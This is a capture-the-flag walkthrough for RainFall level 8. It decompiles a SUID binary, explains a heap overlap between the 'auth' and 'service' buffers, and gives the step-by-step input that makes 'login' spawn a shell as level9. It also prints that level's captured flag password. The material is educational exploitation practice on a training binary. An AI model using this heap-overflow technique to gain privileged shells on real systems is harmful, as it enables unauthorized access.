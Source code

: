 # Level 8 Walkthrough

In this level, we exploit a logic flaw in how heap memory is allocated and accessed to modify memory outside of its bounds. By doing so, we trick the program into calling `system("/bin/sh")` and gain access to the next user's shell. This challenge showcases the subtle power of heap-based logic bugs.

---

## Who am I?

Before diving into the binary’s behavior, we identify our current user context to confirm the environment:

```bash
level8@RainFall:~$ id
uid=2008(level8) gid=2008(level8) groups=2008(level8),100(users)
```

## Where am I?

Let’s explore the directory to see what we’re working with:

```bash
level8@RainFall:~$ ls -l
-rwsr-s---+ 1 level9 users 6057 Mar  6  2016 level8*
```

We find a SUID binary owned by `level9`. Our mission is to exploit this binary in order to retrieve the contents of `/home/user/level9/.pass`.

---

## Binary Behavior

We begin by launching the binary to get an idea of its runtime behavior:

```bash
level8@RainFall:~$ ./level8
(nil), (nil)
```

The program displays two `NULL` pointers followed by a prompt for user input. At this stage, the purpose of these pointers is unknown. We suspect they relate to internal state, but need further inspection.

To get a clearer picture, we reverse-engineered the binary using Ghidra. Here is the decompiled `main()` function:

```c
undefined4 main(void)
{
  char cVar1;
  char *pcVar2;
  char *pcVar3;
  char *pcVar4;
  int iVar5;
  uint uVar6;
  byte *pbVar7;
  byte *pbVar8;
  bool bVar9;
  undefined1 uVar10;
  undefined1 uVar11;
  bool bVar12;
  undefined1 uVar13;
  byte bVar14;
  byte local_90 [5];
  char local_8b [2];
  char acStack_89 [125];

  bVar14 = 0;
  do {
    printf("%p, %p \n",auth,service);
    pcVar4 = fgets((char *)local_90,0x80,stdin);
    ...
```

The function is quite long, but the key logic revolves around parsing commands like `auth`, `reset`, `service`, and `login`. We identified that the two `NULL` pointers displayed at the beginning correspond to two global variables: `auth` and `service`. These are manipulated by the commands the user types.

For clarity, here is a simplified version of the control flow:

```c
if (strncmp(input, "auth", 5) == 0) {
    auth = malloc(4);
    memset(auth, 0, 4);
    if (strlen(input + 5) < 31) {
        strcpy(auth, input + 5);
    }
}

if (strncmp(input, "reset", 5) == 0) {
    free(auth);
}

if (strncmp(input, "service", 7) == 0) {
    service = strdup(input + 7);
}

if (strncmp(input, "login", 5) == 0) {
    if (*(auth + 32) != 0) {
        system("/bin/sh");
    } else {
        fwrite("Password:\n", 1, 10, stdout);
    }
}
```

Now that we have a clearer understanding of the program logic, we can reason through a potential path to exploitation.

---

## Understanding the Exploit

Let’s break down the goal and how we can manipulate the program to reach it.

### Objective

The critical condition is:

```c
if (*(auth + 32) != 0)
```

This tests whether the **33rd byte** of `auth` (i.e., `auth[32]`) is non-zero. If it is, the program spawns a shell with `system("/bin/sh")`.

### Vulnerability

Here’s the key:

* `auth` is allocated with only **4 bytes**, and initialized to zero.
* The `service` buffer is created using `strdup()`, which copies user input into a new allocation placed **after** `auth` on the heap.
* A long input to `service` allows us to **overwrite adjacent memory**, including `auth[32]`.

So, if we can write 32 bytes into `service`, we can overflow into `auth[32]` and set it to a non-zero value, which triggers the shell when calling `login`.

### Important Detail

However, there’s a condition on the `auth` command: it only performs `strcpy()` if the string after `auth` is less than 31 characters. If this condition is not met, `auth` remains `NULL`. Then, the program crashes when trying to read from `auth[32]`.

So to proceed safely:

* The string after `auth` must be short (e.g., `test`)
* The string after `service` must be at least 32 characters to reach `auth[32]`

---

## Crafting the Exploit Step-by-Step

We now test the exploit step by step, applying what we just reasoned about.

```bash
level8@RainFall:~$ ./level8
(nil), (nil)
```

🔹 At this point, both `auth` and `service` are `NULL`. No memory has been allocated yet.

---

```bash
auth test
0x804a008, (nil)
```

🔹 This creates a 4-byte `auth` buffer on the heap (at address `0x804a008`). The string `"test"` is copied into it. Since the input is less than 31 characters, the `strcpy()` executes correctly.

Memory layout:

```bash
0x804a008 : 't'
0x804a009 : 'e'
0x804a00A : 's'
0x804a00B : 't'
```

---

```bash
service $(python -c 'print("A"*32)')
0x804a008, 0x804a018
```

🔹 The program allocates a new buffer for `service` at `0x804a018` and copies 32 `A` into it. Because the chunk is right after `auth`, this overflows into the next chunk, touching `auth[32]`.

Visualisation mémoire (simplifiée) :

```bash
...    <- auth (4 bytes) at 0x804a008
...
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA <- service (32 A) at 0x804a018
^ overflows to byte 33 of auth (auth[32])
```

This means: `auth[32] = 'A'` → so `*(auth + 32) != 0`.

---

```bash
login
```

🔹 The program checks `auth[32]`, sees that it’s non-zero (`'A'` = `0x41`), and calls `system("/bin/sh")`.

We now have a shell:

```bash
$ whoami
level9
$ cat /home/user/level9/.pass
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
```

Exploit succeeded.

---

## Files in this repository

* `flag.txt`: file containing the retrieved flag
* `asm_analysis.md`: GDB analysis of the binary
* `source/`: contains `ghidra/` (raw Ghidra decompilation) and `clean/` (cleaned C, faithful to binary)

---

## Conclusion

This level highlights a subtle but powerful logic flaw in heap memory handling:

* By overflowing memory allocated after `auth`, we modify `auth[32]` indirectly
* This causes the condition in `login` to trigger `system("/bin/sh")`

Through a simple abuse of heap layout and input length, we obtain a shell as `level9` and access the protected flag.

